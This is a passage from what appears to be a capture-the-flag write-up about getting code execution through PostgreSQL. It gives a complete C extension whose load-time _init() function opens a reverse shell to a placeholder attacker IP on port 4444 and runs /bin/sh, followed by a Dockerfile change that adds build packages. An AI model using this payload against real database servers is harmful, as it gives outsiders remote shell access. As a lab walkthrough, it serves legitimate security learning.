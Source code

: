 Our docker container doesn't have bash so we need to change it up a bit to use `/bin/sh` and change the port and IP to our ones:

```c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include "postgres.h"
#include "fmgr.h"
  
#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif
  
void _init() {
    /*
        code taken from https://www.revshells.com/
    */
  
    int port = 4444;
    struct sockaddr_in revsockaddr;
  
    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("ATTACKERIP");
  
    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);
  
    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
}
```

I modify the Dockerfile we are given to include the `postgresql-dev` package:
```dockerfile
RUN apk add --no-cache \
    chromium \
    chromium-chromedriver \
    postgresql \
    postgresql-contrib \
    postgresql-dev \
    supervisor \
    nginx \
    openssl \
    build-base
```
